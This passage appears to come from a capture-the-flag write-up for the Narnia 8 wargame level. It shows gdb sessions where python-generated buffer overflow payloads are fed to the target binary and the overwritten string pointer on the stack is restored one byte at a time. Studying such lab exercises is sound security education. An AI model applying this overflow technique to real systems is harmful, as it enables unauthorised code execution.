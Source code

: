 ```nasm
   0x080484bc <+44>:	add    esp,0x8
   0x080484bf <+47>:	mov    eax,0x0
   0x080484c4 <+52>:	leave
   0x080484c5 <+53>:	ret
End of assembler dump.
(gdb)
```

Okay, let's try to restore the original pointer to our string, here it's `0xffffd871` :

```nasm
(gdb) run $(python -c 'print 20 * "A"')
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd871
0xffffd68c:	0xffffd698	0x080484a7	0xffffd871	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
```

So, let's add 1 byte to the payload (`0x71`)

```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x71"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x71"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffff4c71
0xffffd68c:	0xffffd698	0x080484a7	0xffffd870	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
```

Hum, the orginal address shifted down to `0xffffd870`, let's fix that :

```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x70"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x70"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd870
0xffffd68c:	0xffffd698	0x080484a7	0xffffd870	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
```

So far, so good. Let's add a second byte, `0xd8` :
